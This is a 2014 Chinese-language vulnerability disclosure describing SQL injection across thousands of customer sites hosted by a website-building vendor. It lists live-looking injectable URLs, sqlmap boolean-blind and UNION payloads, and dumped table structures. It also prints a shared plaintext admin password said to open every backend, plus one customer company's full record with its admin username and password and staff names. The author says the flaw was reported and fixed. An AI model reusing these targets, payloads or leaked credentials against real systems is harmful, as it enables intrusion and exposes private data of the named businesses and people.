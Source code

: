 # 某建站厂商SQL注入影响数万企业

Feei <feei#feei.cn> 09/2014

## 1. 信息收集

```
[+] Emails found:
------------------
david@iecworld.com
admin@iecworld.com
divid@iecworld.com

[+] Hosts found in search engines:
------------------------------------
122.227.230.250:server.iecworld.com
61.130.97.52:www.iecworld.com
114.80.68.133:testweb5.iecworld.com
61.130.97.53:wiki.make.iecworld.com
114.80.67.29:testweb7.iecworld.com
114.80.68.191:testweb6.iecworld.com
61.130.97.55:shop.testweb.iecworld.com
61.130.97.53:cn.iecworld.com
61.130.97.55:testweb.iecworld.com
60.191.124.236:admin.iecworld.com
61.130.97.54:make1.iecworld.com
61.130.97.53:make.iecworld.com
60.191.124.236:is-service.iecworld.com
61.130.97.53:service.iecworld.com
60.191.124.236:is-testweb7.iecworld.com
61.130.97.52:file.iecworld.com
60.191.124.236:hk.iecworld.com
60.191.124.236:253Dcn.iecworld.com
```

提取有用信息
`testwebN.iecworld.com`

- 上面这种域名是用来测试访问网站的(比如客户住域没有备案或者还没购买,先通过这个域名的二级目录来访问)
- 有N个这类二级域名
- 每个这类二级域名下存在数千客户网站

于是查找注入点

## 2. 漏洞证明

简单的找了下每个二级域下的SQL注入点:

```
testweb 61.130.97.55
http://testweb.iecworld.com/yining/admin/login.php

testweb2 61.130.97.52 主站
http://testweb2.iecworld.com/suotie/admin/login.php

testweb3 114.80.68.131
http://testweb3.iecworld.com/wangxiang/cn/products.php?tid=18&id=1

testweb4
testweb4.iecworld.com/lnr/cn/faqed.php?id=11&gid=1

...
```

`http://testweb7.iecworld.com/dongfang/cn/products.php?act=list&id=7`

**通过注入点拿到数据库权限**
```
Place: GET  
Parameter: TypeLevel  
Type: boolean-based blind  
Title: AND boolean-based blind - WHERE or HAVING clause  
Payload: id=19&TypeLevel=1 AND 8971=8971&pid=19  
Type: UNION query

Title: MySQL UNION query (NULL) - 11 columns

Payload: id=19&TypeLevel=1 UNION ALL SELECT NULL,CONCAT(0x7170746271,0x4d597259547178556155,0x7171707a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#&pid=19  
```

**`testweb`数据库**
```
web application technology: PHP 5.2.13, Apache 2.2.15
back-end DBMS: MySQL >= 5.0.0
[*] 'yining'@'localhost'
available databases [4]:
[*] information_schema
[*] maindb
[*] test
[*] 

Database: maindb
[10 tables]
+---------------------------------------+
| t_admin |
| t_bak |
| t_dict |
| t_feedback |
| t_language |
| t_log |
| t_model |
| t_plugin |
| t_progress |
| t_timeline |
+———————————————————+
```

**`testweb2`的`maindb`库**
```bash
Database: maindb 
[12 tables]
+------------+
| books |
| company |
| t_admin |
| t_bak |
| t_dict |
| t_feedback |
| t_language |
| t_log |
| t_model |
| t_plugin |
| t_progress |
| t_timeline |
+——————+
```

**`testweb3`的`maindb`库**
```
Database: maindb
[6 tables]
+------------+
| books |
| company |
| t_admin |
| t_bak |
| t_dict |
| t_feedback |
+------------+
```

通过分析得出以下结论:

- 每个客户网站只有自己数据库权限和一个名为mainbd库的权限
- 通过分析maindb表结构发现里面竟然存了该二级域名下的所有网站相关信息(管理员帐号密码/反馈/备份/日志/插件等)
- 每个二级域的maindb库里面的的客户信息表都是t_admin,并且密码没有加密
- 每个二级域的maindb库管理员表里面都有一个admin ps99379937的管理员帐户,按理说如果是存放客户的密码,为什么会都有这个帐号呢,于是继续深入下去发现了每个二级域都有一个总的管理后台(e.g `testweb2.iecworld.com/admin`)

## 3. 漏洞影响

![](images/v_paisang_01.png)
![](images/v_paisang_02.png)
![](images/v_paisang_03.png)

使用`admin`/`ps99379937`可以登陆所有后台,如下

- `testweb.iecworld.com/admin` (主要是11年建设的网站,共1940个客户)
- `testweb2.iecworld.com/admin` (主要是11年建设的网站,共1689个客户)
- `testweb3.iecworld.com/admin` (主要是11年建设的网站,共1100个客户)
- `testweb4.iecworld.com/admin` (主要是12年建设的网站,共1143个客户)
- `testweb5.iecworld.com/admin` (主要是11年建设的网站,共1689个客户)
- `testweb6.iecworld.com/admin` (主要是13年建设的网站,共1273个客户)
- `testweb7.iecworld.com/admin` (主要是13年建设的网站,共1093个客户)
- `testweb8.iecworld.com/admin` (主要是14年建设的网站,共483个客户)
- `testweb9.iecworld.com/admin` (主要是14年的)
- `testweb10.iecworld.com/admin` (主要是14年的)
- `testweb11.iecworld.com/admin` (主要是14年的)

上面截图是其中一个二级域名的管理后台，可以看到很多敏感信息
所有客户网站后台均可以登陆
从`testweb的maindb.t_admin`随便挑选一个用户

```
2644,102,宁波,朱宁斌,,lixiang,4,0,0,5000,李勇,100,lixiang,陈海啸,3lxanc85,,1,2,0,D0:D1:D2:D3:F0:F1:F2:F3:F4:F5:F6:F7:F8:F9:F10:E0:E1:E2:E3:E4:E5:E6:E7:E8:E9:E10:G0:G1:G2:G3:G4:G13:G5:G6:G7:G8:I0:I1:I2:I3:O1:O2,2009-04-30 16:24:58,http://chinalx.com,2010-02-12 00:00:00,100,宁波理想信息工程有限公司,cn/index.php,2009-02-12 00:00:00,,宁波理想信息工程有限公司
```

宁波理想信息工程有限公司(http://www.chinalx.com/)
登陆地址:http://www.chinalx.com/admin/
帐号:lixiang 密码3lxanc85

粗略测试了下,客户案例里面大部分都能登陆并获取到网站后台权限和数据库权限甚至源码。
点到为止,不继续挖了。

漏洞已提交补天并已通知厂商修复完毕。

